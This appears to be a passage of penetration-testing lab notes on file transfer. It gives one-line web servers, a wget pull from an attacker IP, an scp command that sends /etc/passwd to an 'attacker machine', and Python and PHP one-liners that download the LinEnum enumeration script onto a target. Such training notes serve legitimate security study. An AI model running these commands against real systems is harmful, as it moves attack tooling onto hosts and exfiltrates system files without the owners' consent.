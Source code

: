- python2.7
```
python2.7 -m SimpleHTTPServer
```

- php
```
php -S localhost:8000
```

- ruby
```
ruby -run -ehttpd . -p8000
```

Then we can simply request the file from the server
```
wget 192.168.49.128:8000/filetotransfer.txt
```

### <mark class="hltr-orange">SCP Upload</mark>

If outbound ssh connections (TCP 22) are allowed, we can use scp (secure copy) to upload a file to our linux attacker machine

```shell-session
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

---
# <mark class="hltr-pink">Transferring Files with Code</mark>

- Python 2 - Download
```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

- Python3 - Download
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

- php download with file_get_contents
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

- php download with fopen
```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

